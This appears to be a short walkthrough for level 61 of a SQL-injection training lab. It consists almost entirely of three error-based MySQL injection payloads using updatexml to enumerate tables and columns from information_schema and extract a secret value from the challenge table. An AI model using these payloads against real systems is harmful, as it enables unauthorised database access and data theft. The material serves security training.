

# 第六十一关
查表：'))and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) -- qwe

查列：'))and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='y7rqnt6tpp'),0x7e),1) -- qwe

查数据：'))and updatexml(1,(concat(0x7e,(select secret_GR2F from y7rqnt6tpp),0x7e)),1) -- qwe